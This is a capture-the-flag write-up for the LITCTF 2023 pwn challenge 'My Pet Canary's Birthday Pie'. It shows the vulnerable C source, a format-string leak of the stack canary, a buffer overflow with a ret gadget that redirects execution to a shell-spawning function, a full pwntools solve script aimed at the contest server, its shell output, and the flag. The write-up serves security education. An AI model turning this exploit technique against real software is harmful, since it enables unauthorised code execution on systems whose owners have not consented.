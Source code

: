 # Pwn - My Pet Canary's Birthday Pie (LITCTF 2023)

## Problem

We are given the following source file `s.c` (and its binary):

```c
#include <stdio.h>
#include <stdlib.h>

int win() {
	system("/bin/sh");
}

int vuln() {
	char buf[32];
	gets(buf);
	printf(buf);
	fflush(stdout);
	gets(buf);
}

int main() {
	setbuf(stdout, 0x0);
	setbuf(stderr, 0x0);
	vuln();
}
```

Binary properties:

```sh
└─$ pwn checksec s
[*] '/home/kali/Downloads/LITCTF-2023/s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

There are 2 vulnerabilities to take note. First, `printf(buf)` is vulnerable to a format string attack. Furthermore, `gets(buf)` is vulnerable to buffer overflow. Therefore, the goal is to:
1. Use format string vulnerability of `printf(buf)` to obtain stack canary
2. Perform buffer overflow (buffer is 32 bytes) via 2nd `gets(buf)` to overwrite return address to the `win()` function. When overwriting, we must make sure we do not modify the value of the stack canary found in step 1.

Relevant addresses for `win()` and `vuln()` are as follows:

![win()](./images/pwn_mypetcanarysbirthdaypie1.png)

![vuln()](./images/pwn_mypetcanarysbirthdaypie2.png)

A solve script to do this is as follows:

```python
from pwn import *
import binascii
context.update(arch="amd64",os="linux")
context.terminal = ['tmux', 'splitw', '-h']
exe = ELF('./s')
#r = process('./s')
#r = gdb.debug([exe.path], '''
#    b main
#    continue
#    b vuln
#''')
r = remote('litctf.org', 31791)

# Canary at %11$p since it looks highly random
r.sendline(b'%09$p %10$p %11$p %12$p %13$p')
data = r.recv(2048).decode('utf-8').split(' ')
print(data)
before_canary = bytes.fromhex(data[1][2:])
canary = bytes.fromhex(data[2][2:]) 
after_canary = bytes.fromhex(data[3][2:])
ret_addr = bytes.fromhex(data[4][2:])
mod_ret_addr = bytearray(ret_addr)
# Win is at 1e9, ret_addr originally at 2ae
mod_ret_addr[-1] = 0xe9
mod_ret_addr[-2] = (mod_ret_addr[-2] & 0xf0) | 0x1
ret_gad_addr = bytearray(ret_addr)
ret_gad_addr[-1] = 0xff
ret_gad_addr[-2] = (ret_gad_addr[-2] & 0xf0) | 0x1
print([before_canary, canary, after_canary, binascii.hexlify(ret_addr), binascii.hexlify(mod_ret_addr), binascii.hexlify(ret_gad_addr)])
# Buffer size is 32
# --------------------> Overwrite canary --------------------> Overwrite RA to win ------>
# [32 A's][8 bytes][Canary (looks random, 8 bytes)][8 bytes][RA, 8 bytes]

print('Canary:', [canary])
r.send(b'A' * 32)
r.send(before_canary[::-1] + b'\x00\x00')
r.send(canary[::-1])
r.send(after_canary[::-1] + b'\x00\x00')
# extra "ret" gadget is needed to "clean stack up"
r.send(ret_gad_addr[::-1] + b'\x00\x00')
r.sendline(mod_ret_addr[::-1])
r.sendline(b'cat flag.txt')
r.interactive()
r.close()
```

Sample solve script output:

```sh
└─$ python3 mypetcanarybirthdaypiesolve.py
[*] '/home/kali/Downloads/LITCTF-2023/s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to litctf.org on port 31791: Done
['0x7024333125', '0x7ffddce67aa0', '0x68c8db2745438d00', '0x7ffddce67aa0', '0x558938dd12ae']
[b'\x7f\xfd\xdc\xe6z\xa0', b"h\xc8\xdb'EC\x8d\x00", b'\x7f\xfd\xdc\xe6z\xa0', b'558938dd12ae', b'558938dd11e9', b'558938dd11ff']
Canary: [b"h\xc8\xdb'EC\x8d\x00"]
[*] Switching to interactive mode
$ ls
flag.txt
run.sh
s
s.c
$ cat flag.txt
LITCTF{rule_1_of_pwn:_use_checksec_I_think_06d2ee2b}
```

You might have noticed that a return gadget (`0xc3`) placed as the return address instead of the address of the win function. This is supposedly used to clean up the stack after buffer overflow, and solved the following error if we were to directly invoke `system("/bin/sh")`:

```sh
__libc_system (line=... "/bin/sh") at ../sysdeps/posix/system.c:179
179 ../sysdeps/posix/system.c: No such file or directory.
```

## Flag

LITCTF{rule_1_of_pwn:_use_checksec_I_think_06d2ee2b}

